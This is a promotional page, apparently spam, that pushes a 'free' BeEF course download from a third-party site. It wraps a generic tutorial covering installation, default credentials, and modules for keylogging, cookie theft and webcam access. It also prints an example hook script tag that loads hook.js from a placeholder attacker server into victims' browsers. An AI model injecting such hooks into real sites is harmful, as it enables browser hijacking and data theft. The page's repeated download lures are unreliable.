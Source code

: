 # Free Download: Beef-XSS – Master Cross-Site Scripting with This Comprehensive Guide

Beef-XSS, also known as the Browser Exploitation Framework, is a powerful penetration testing tool that allows you to assess the security posture of a web application by targeting the client-side, specifically the web browser. If you're eager to learn **Beef-XSS for free**, this is your chance. Below, you'll discover how to access a comprehensive Udemy course guide—**absolutely free**. This will empower you to understand and mitigate client-side vulnerabilities effectively.

[**Click here to download the Beef-XSS course for FREE!**](https://udemywork.com/beef-xss)

## Why Learn Beef-XSS?

Beef-XSS stands out because it goes beyond traditional server-side testing. It focuses on the browser itself, exploiting vulnerabilities within the client's environment. Understanding Beef-XSS is crucial for:

*   **Comprehensive Security Assessments:**  It adds another layer to your penetration testing arsenal.
*   **Real-World Exploitation:** It allows you to simulate real-world attacks that target client-side vulnerabilities.
*   **Enhanced Remediation Strategies:**  Understanding how Beef-XSS works enables you to implement more effective security measures to protect against cross-site scripting attacks.
*   **Meeting Industry Demand:** Security professionals with expertise in client-side security are highly sought after.
*   **Proactive Security Posture:** By identifying and mitigating client-side vulnerabilities, you can proactively improve your organization's security posture.

This guide will provide you with a foundational understanding of Beef-XSS and how to leverage it in practical scenarios. You'll learn how to set up the framework, inject hooks into target websites, and use various modules to assess security vulnerabilities.

## What You'll Learn in This Free Beef-XSS Guide:

This free guide delves into the core functionalities and techniques of Beef-XSS:

*   **Beef-XSS Installation and Configuration:**  Step-by-step instructions on setting up and configuring the Beef-XSS framework.
*   **Understanding Hooks:**  Learn how to inject hooks into target websites to gain control of the browser.
*   **Browser Fingerprinting:**  Discover how to gather information about the target's browser and operating system.
*   **Exploitation Modules:**  Explore a wide range of modules for performing various attacks, such as keylogging, social engineering, and network scanning.
*   **Client-Side Vulnerability Identification:** Learn how to use Beef-XSS to identify and exploit client-side vulnerabilities.
*   **Reporting and Remediation:**  Understand how to generate reports and provide recommendations for mitigating vulnerabilities.
*   **Advanced Techniques:**  Dive into advanced techniques such as evading detection and persistence.
*   **Ethical Hacking Principles:**  Understand the ethical considerations and legal implications of using Beef-XSS.
*   **Practical Scenarios and Use Cases:**  Learn through real-world examples and practical scenarios.
*   **Defense Strategies:** Implementing preventative strategies to harden systems against Beef-XSS attacks

[**Ready to become a Beef-XSS expert? Download the course for FREE now!**](https://udemywork.com/beef-xss)

## Setting Up Your Beef-XSS Environment

The first step to mastering Beef-XSS is setting up your testing environment.  This usually involves installing Beef-XSS on a Linux distribution such as Kali Linux or Parrot OS. Here's a general outline:

1.  **Install Kali Linux (Recommended):** Kali Linux comes pre-installed with many penetration testing tools, including Beef-XSS.
2.  **Update and Upgrade Your System:**  Ensure your system is up to date with the latest security patches.  Run `sudo apt update && sudo apt upgrade`.
3.  **Install Beef-XSS:** If not already installed, you can usually install Beef-XSS using the package manager.  Run `sudo apt install beef-xss`.
4.  **Configure Beef-XSS:**  Edit the `config.yaml` file to configure Beef-XSS to your specific needs.  This may include setting up the listener address and port.
5.  **Start Beef-XSS:**  Run the `beef-xss` command to start the Beef-XSS framework.
6.  **Access the Beef-XSS Interface:** Open a web browser and navigate to the Beef-XSS interface (usually `http://127.0.0.1:3000/ui/panel`).
7.  **Login:** Use the default username and password (usually `beef` and `beef`).

**Important Considerations:**

*   **Virtual Machine:** It's highly recommended to use a virtual machine for your testing environment to isolate it from your main operating system.
*   **Network Configuration:** Ensure that your network is properly configured to allow Beef-XSS to communicate with target websites.

## Understanding Beef-XSS Hooks

A **hook** in Beef-XSS is a JavaScript snippet that is injected into a target website. When a victim visits the compromised website, the hook executes in their browser, establishing a connection with the Beef-XSS control panel. This connection allows you, as the penetration tester, to control the victim's browser and perform various actions.

**How Hooks Work:**

1.  **Injection:** The hook is injected into the target website. This can be done through various methods, such as exploiting a cross-site scripting (XSS) vulnerability.
2.  **Execution:** When a victim visits the compromised website, the hook executes in their browser.
3.  **Connection:** The hook establishes a connection with the Beef-XSS control panel.
4.  **Control:** You can then use the Beef-XSS control panel to control the victim's browser and perform various actions.

**Example Hook:**

```html
<script src="http://your-beef-server-ip:3000/hook.js"></script>
```

**Key Points:**

*   The hook is a small JavaScript file that is served by the Beef-XSS server.
*   The hook must be injected into the target website to be effective.
*   Once the hook is injected, it will execute automatically when a victim visits the website.

## Exploring Beef-XSS Modules

Beef-XSS comes with a wide array of modules designed to exploit vulnerabilities and gather information. These modules are categorized and accessible through the Beef-XSS control panel. Here are some examples of commonly used modules:

*   **Browser Information:** Retrieves detailed information about the victim's browser, including version, plugins, and operating system.
*   **Network Information:** Gathers information about the victim's network, such as IP address, DNS servers, and gateway.
*   **Social Engineering:** Executes social engineering attacks, such as phishing and credential harvesting.
*   **Keylogger:** Captures keystrokes entered by the victim.
*   **Webcam:** Attempts to access the victim's webcam.
*   **Port Scanner:** Scans the victim's network for open ports.
*   **Cookie Theft:** Steals cookies from the victim's browser.
*   **DNS Spoofing:** Redirects the victim to a fake website.
*   **Clickjacking:** Tricks the victim into clicking on hidden elements.

**Using Modules:**

1.  **Select a Hooked Browser:**  In the Beef-XSS control panel, select the browser you want to target.
2.  **Browse Modules:**  Navigate to the "Commands" tab to browse the available modules.
3.  **Configure Module Options:**  Configure the module options as needed.
4.  **Execute Module:**  Click the "Execute" button to run the module.

## Defending Against Beef-XSS Attacks

While Beef-XSS is a powerful tool for penetration testing, it's essential to understand how to defend against it. Some preventative measures include:

*   **Input Validation:**  Properly validate all user input to prevent cross-site scripting (XSS) vulnerabilities.
*   **Output Encoding:**  Encode all output to prevent malicious code from being executed in the browser.
*   **Content Security Policy (CSP):**  Implement a strong CSP to restrict the sources from which the browser can load resources.
*   **Regular Security Audits:**  Conduct regular security audits to identify and fix vulnerabilities.
*   **Web Application Firewalls (WAFs):** Implement WAFs to detect and block malicious requests.
*   **Browser Security Extensions:** Encourage users to install browser security extensions that can help protect against XSS attacks.
*   **Stay Updated:** Keep your web applications and browsers up to date with the latest security patches.
*   **Educate Users:** Educate users about the risks of clicking on suspicious links or entering sensitive information on untrusted websites.
*   **Monitor Network Traffic:**  Monitor network traffic for suspicious activity.

[**Don't wait! Secure your systems now by downloading the Beef-XSS course for FREE!**](https://udemywork.com/beef-xss)

## Ethical Considerations

It is crucial to emphasize the ethical and legal considerations when using Beef-XSS. Beef-XSS should only be used for authorized penetration testing and security assessments. It is illegal and unethical to use Beef-XSS to attack systems without permission. Always obtain explicit consent before conducting any penetration testing activities.

## Conclusion

Beef-XSS is a valuable tool for understanding and mitigating client-side vulnerabilities. By understanding how Beef-XSS works, you can better protect your web applications and users from cross-site scripting attacks. This free guide provides you with the foundational knowledge you need to get started with Beef-XSS. Download the course now and begin your journey to mastering client-side security. Remember to always use Beef-XSS responsibly and ethically. Understanding and mitigating XSS vulnerabilities is paramount in today's threat landscape.

This Beef-XSS guide offers a starting point for security professionals and enthusiasts to learn and utilize this powerful framework. By delving into installation, hooking techniques, module exploration, and defensive strategies, users can gain valuable insights into client-side security. Always remember the importance of ethical considerations and responsible usage while harnessing the capabilities of Beef-XSS.

[**Claim your FREE Beef-XSS course download now before it's too late!**](https://udemywork.com/beef-xss)
